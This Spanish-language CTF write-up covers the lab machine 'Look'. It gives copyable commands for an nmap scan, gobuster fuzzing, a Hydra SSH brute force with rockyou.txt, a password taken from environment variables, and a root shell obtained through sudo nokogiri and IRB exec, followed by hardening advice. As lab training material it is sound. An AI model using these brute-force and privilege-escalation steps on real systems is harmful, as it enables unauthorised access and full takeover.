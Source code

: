 
# 🚀 Explotación de Máquina Look (CTF)

![Nivel: Medio](https://img.shields.io/badge/Nivel-Medio-orange) ![Tema: Web Exploitation + PrivEsc](https://img.shields.io/badge/Tema-Web%20Exploitation%20%2B%20PrivEsc-blue)

## **Descripción**
Este documento detalla la explotación completa de la máquina **Look** de CTF, que incluye:
1. Reconocimiento de puertos y servicios
2. Fuzzing de directorios web
3. Fuerza bruta SSH con Hydra
4. Escalada de privilegios mediante variables de entorno
5. Explotación de binario nokogiri con sudo

**Tiempo estimado**: 45-60 minutos  
**Dificultad**: Medio  
**Sistema operativo**: Linux

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Enumeración Web](#enumeración-web)
3. [Fuerza Bruta SSH](#fuerza-bruta-ssh)
4. [Acceso Inicial](#acceso-inicial)
5. [Escalada de Privilegios](#escalada-de-privilegios)
6. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo de Puertos
````
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 10.0.2.8 -oN escaneo
````

**Resultados**:
- **Puerto 22/tcp**: SSH - OpenSSH
- **Puerto 80/tcp**: HTTP - Apache httpd

## **Enumeración Web**

### 2. Fuzzing de Directorios
```bash
gobuster dir -u http://10.0.2.16 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

**Hallazgo crítico**:
- **/info.php**: Revela el nombre de usuario **axel**

## **Fuerza Bruta SSH**

### 3. Ataque con Hydra
```bash
hydra -l axel -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.16 -vvv -t 4 -F
```

**Credenciales obtenidas**:
- **Usuario**: axel
- **Contraseña**: [Encontrada en rockyou.txt]

## **Acceso Inicial**

### 4. Conexión SSH
```bash
ssh axel@10.0.2.16
```

### 5. Flag de Usuario
```bash
cat user.txt
```
- **User Flag**: `[Redacted]`

### 6. Tratamiento de TTY
```bash
# Mejorar shell interactiva
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset
xterm
```

## **Escalada de Privilegios**

### 7. Enumeración de Variables de Entorno
```bash
env
```

**Hallazgo**:
- Contraseña del usuario **dylan** en variables de entorno

### 8. Cambio de Usuario
```bash
su dylan
```

### 9. Enumeración de Permisos Sudo
```bash
sudo -l
```

**Resultado**:
```
User dylan may run the following commands on look:
    (root) NOPASSWD: /usr/bin/nokogiri
```

### 10. Explotación de Nokogiri
```bash
sudo -u root /usr/bin/nokogiri /etc/passwd
```

### 11. Ejecución de Shell desde IRB
```ruby
exec '/bin/bash -i'
```

### 12. Flag de Root
```bash
find / -name user.txt -o -name root.txt 2>/dev/null | xargs cat
```
- **Root Flag**: `[Redacted]`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Exposición de información** en info.php
2. **Contraseña débil** de usuario axel
3. **Credenciales en variables de entorno**
4. **Permisos sudo peligrosos** en binario nokogiri

### Hardening Recomendado
- Validar y sanitizar salidas de PHP
- Implementar políticas de contraseñas robustas
- No almacenar credenciales en variables de entorno
- Revisar y restringir permisos sudo regularmente
- Implementar fail2ban para protección SSH

### Técnicas Aplicadas
1. **Escaneo de puertos** con Nmap
2. **Fuzzing de directorios** con Gobuster
3. **Fuerza bruta SSH** con Hydra
4. **Enumeración de variables de entorno**
5. **Explotación de binarios sudo**

---

**Herramientas utilizadas**:
- Nmap
- Gobuster
- Hydra
- Linux commands

**Referencias**:
- [Hydra Brute Force Tool](https://github.com/vanhauser-thc/thc-hydra)
- [Gobuster Directory Fuzzing](https://github.com/OJ/gobuster)
- [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

**Tags**: `#CTF #Look #SSH #BruteForce #Sudo #PrivEsc #Nokogiri`

---

## **Lecciones Aprendidas**
- La información expuesta en endpoints puede ser el punto de entrada crítico
- Las variables de entorno pueden contener credenciales sensibles
- Los binarios con permisos sudo deben auditarse regularmente
- Las herramientas de desarrollo (nokogiri) pueden ser vectores de ataque

## **Notas Adicionales**
- Las direcciones IP deben ajustarse según el entorno de laboratorio
- Los tiempos de fuerza bruta pueden variar según la contraseña
- Siempre documentar y reportar vulnerabilidades encontradas

---

## **Comandos Críticos de Explotación**

### Reconocimiento
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 10.0.2.8 -oN escaneo
```

### Enumeración Web
```bash
gobuster dir -u http://10.0.2.16 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### Fuerza Bruta SSH
```bash
hydra -l axel -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.16 -vvv -t 4 -F
```

### Escalada de Privilegios
```bash
sudo -u root /usr/bin/nokogiri /etc/passwd
# Luego en IRB: exec '/bin/bash -i'
```

### Búsqueda de Flags
```bash
find / -name user.txt -o -name root.txt 2>/dev/null | xargs cat
```
